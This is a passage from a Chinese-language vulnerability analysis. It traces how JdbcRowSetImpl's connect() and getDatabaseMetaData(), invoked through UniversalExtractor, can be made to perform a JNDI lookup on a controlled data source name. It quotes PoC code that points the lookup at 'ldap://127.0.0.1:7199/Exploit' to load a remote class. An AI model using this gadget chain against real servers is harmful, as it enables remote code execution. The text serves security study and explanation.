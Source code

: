 我们看到，JdbcRowSetImpl的connect函数有可能能够传可控的参数并调用lookup，下面我们分析一下，假设有一个函数调用了connect()，如何才能顺利调用其中的lookup，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0158170cc1f45f6574.png)

首先一点就是要保证这是首次连接，只有这样才能保证进入else if`{``}`中，其次就是this.getDataSourceName()不为null，接下来我们跟踪看看getDataSourceName()，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0136a1006dc725e4bd.png)

dataSource是private变量，是可控的，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016db3a4e7f699a274.png)

这一部分在PoC中有所体现，

```
JdbcRowSetImpl rowSet = new JdbcRowSetImpl();
rowSet.setDataSourceName("ldap://127.0.0.1:7199/Exploit");
```

下面一个问题就是，怎么调用connect，

[![](https://p5.ssl.qhimg.com/t014f3a713cd3183b3a.png)](https://p5.ssl.qhimg.com/t014f3a713cd3183b3a.png)

这里有三个函数prepare, getDatabaseMetaData，setAutoCommit，

都看一下，

[![](https://p2.ssl.qhimg.com/t015832fdf3642eb273.png)](https://p2.ssl.qhimg.com/t015832fdf3642eb273.png)

[![](https://p2.ssl.qhimg.com/t0167e9b733e6845d1f.png)](https://p2.ssl.qhimg.com/t0167e9b733e6845d1f.png)

[![](https://p1.ssl.qhimg.com/t01c7efcedc5a075525.png)](https://p1.ssl.qhimg.com/t01c7efcedc5a075525.png)

眼拙，感觉都可以，因为都可以做到首次连接。

PoC里用的是getDatabaseMetaData，到此，我们看看PoC对应的代码，

```
UniversalExtractor extractor = new UniversalExtractor("getDatabaseMetaData()", null, 1);
final ExtractorComparator comparator = new ExtractorComparator(extractor);
JdbcRowSetImpl rowSet = new JdbcRowSetImpl();
rowSet.setDataSourceName("ldap://127.0.0.1:7199/Exploit");
```

第一行构造UniversalExtract对象（参数的设计在下面解释），用于调用JdbcRowSetImpl对象的方法，第三四行就按照我们需要的：控制dataSourceName，第二行放在下面一起解释。

**<a class="reference-link" name="3.UniversalExtractor%E9%83%A8%E5%88%86"></a>3.UniversalExtractor部分**
